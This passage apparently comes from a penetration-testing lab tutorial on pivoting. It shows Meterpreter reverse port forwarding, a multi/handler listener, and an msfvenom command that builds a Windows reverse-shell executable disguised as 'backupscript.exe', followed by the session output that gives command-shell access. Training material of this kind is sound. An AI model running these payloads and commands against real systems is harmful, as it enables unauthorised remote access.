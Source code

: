     meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
    
    [*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
    

#### Configuring & Starting multi/handler

    meterpreter > bg
    
    [*] Backgrounding session 1...
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
    payload => windows/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LPORT 8081 
    LPORT => 8081
    msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
    LHOST => 0.0.0.0
    msf6 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 0.0.0.0:8081 
    

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

#### Generating the Windows Payload

    matmarqx@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
    
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 510 bytes
    Final size of exe file: 7168 bytes
    Saved as: backupscript.exe
    

Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

#### Establishing the Meterpreter session

    [*] Started reverse TCP handler on 0.0.0.0:8081 
    [*] Sending stage (200262 bytes) to 10.10.14.18
    [*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500
    
    meterpreter > shell
    Process 2336 created.
    Channel 1 created.
    Microsoft Windows [Version 10.0.17763.1637]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\>

# Socat Redirection with a Reverse Shell
